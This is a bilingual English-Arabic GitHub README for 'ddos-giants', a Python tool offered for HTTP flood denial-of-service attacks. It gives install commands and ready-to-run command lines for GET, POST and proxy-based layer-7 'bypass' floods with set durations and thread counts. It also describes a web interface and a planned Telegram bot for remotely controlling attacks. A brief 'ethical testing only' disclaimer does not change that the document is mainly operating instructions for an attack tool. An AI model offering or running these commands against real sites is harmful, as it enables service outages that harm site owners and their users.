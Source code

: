 # 🚀 ddos-giants | العملاق للاختبار الأمني DDoS

**ddos-giants** is a professional open-source tool for Distributed Denial of Service (DDoS) attacks for **educational and ethical testing** purposes only.  
تم تطوير الأداة بالكامل بواسطة [خالد](https://github.com/nnnzjn-1)، وتتميز بالذكاء، وسهولة التحكم، ودعم الهجمات الحديثة.

---
## Features | المميزات

- Multiple attack modes: GET, POST, bypass, proxy_get, proxy_post  
- أوضاع هجوم متعددة: GET، POST، تجاوز الحماية، هجوم بـ proxy GET و proxy POST  
- Support for SOCKS5 and HTTP proxies  
- دعم لبروكسيات SOCKS5 و HTTP  
- Customizable POST data input  
- إمكانية إضافة بيانات POST مخصصة  
- High concurrency and performance using asyncio and aiohttp  
- أداء عالي باستخدام asyncio و aiohttp  
- Easy to use CLI interface  
- واجهة سطر أوامر سهلة الاستخدام

---
## Requirements | المتطلبات

- Python 3.8+  
- مكتبات Python: `aiohttp`, `async-timeout`  
يمكن تثبيتها عبر:

```bash
pip install aiohttp async-timeout

## 🛠️ Installation | التثبيت

```bash
# Update system & install essentials | تحديث النظام
apt update && apt install -y git python3 python3-pip

# Clone the project | استنساخ المشروع
git clone https://github.com/nnnzjn-1/ddos-giants.git
cd ddos-giants

# Install Python libraries | تثبيت المكتبات
pip3 install -r requirements.txt
```

---

## Usage | طريقة التشغيل

### Available Attack Modes | أوضاع الهجوم المتاحة:

| Mode        | Description (EN)                       | الوصف (عربي)                             |
|-------------|--------------------------------------|-----------------------------------------|
| GET         | Simple GET attack without proxy      | هجوم GET بسيط بدون استخدام بروكسي      |
| POST        | POST attack without proxy with data  | هجوم POST بدون بروكسي مع بيانات         |
| bypass      | Layer 7 bypass attack with proxies   | هجوم تجاوز طبقة 7 باستخدام البروكسي     |
| proxy_get   | GET attack with proxies               | هجوم GET باستخدام البروكسيات             |
| proxy_post  | POST attack with proxies and data    | هجوم POST باستخدام البروكسيات مع بيانات  |

---

### Usage Examples | أمثلة التشغيل:

```bash
# Simple GET attack for 60 seconds with 100 threads
python3 core/runner.py GET https://example.com 60 100

# POST attack for 60 seconds with 100 threads and POST data
python3 core/runner.py POST https://example.com 60 100 "" "param1=value1&param2=value2"

# Bypass attack with 60 seconds, 100 threads, using SOCKS5 proxies file
python3 core/runner.py bypass https://example.com 60 100 proxy/socks5.txt

# GET attack with 60 seconds, 100 threads, using HTTP proxies file
python3 core/runner.py proxy_get https://example.com 60 100 proxy/http.txt

# POST attack with 60 seconds, 100 threads, using HTTP proxies file and POST data
python3 core/runner.py proxy_post https://example.com 60 100 proxy/http.txt "param1=value1&param2=value2"
```

---

## 🌍 Web Interface  | واجهة الويب 

```bash
uvicorn web.app:app --host 0.0.0.0 --port 8000 --reload
```
Then open:  
ثم افتح: `http://localhost:8000`

---

## 🤖 Telegram Bot (soon) | بوت تيليجرام (قريبًا)

Remotely control and monitor attacks via Telegram.  
تحكم عن بعد واستلم الإشعارات عبر تيليجرام.

---

Notes | ملاحظات:
	•	For proxy modes (bypass, proxy_get, proxy_post), you must provide a proxy file containing proxies list.
	•	في أوضاع البروكسي، يجب توفير ملف يحتوي على قائمة البروكسيات.
	•	POST data should be URL encoded (e.g. param1=value1&param2=value2).
	•	بيانات POST يجب أن تكون مشفرة بصيغة URL.


## ⚠️ Legal Warning | ⚠️ تحذير قانوني

This tool is for **ethical testing and education only** with explicit permission from the system owner.  
هذه الأداة لأغراض اختبارية وتعليمية شرعية فقط، ويُمنع استخدامها ضد أي جهة دون إذن.

---

## 🧾 License | الترخيص

MIT License  
Developed by **Khaled** – [GitHub: nnnzjn-1](https://github.com/nnnzjn-1)
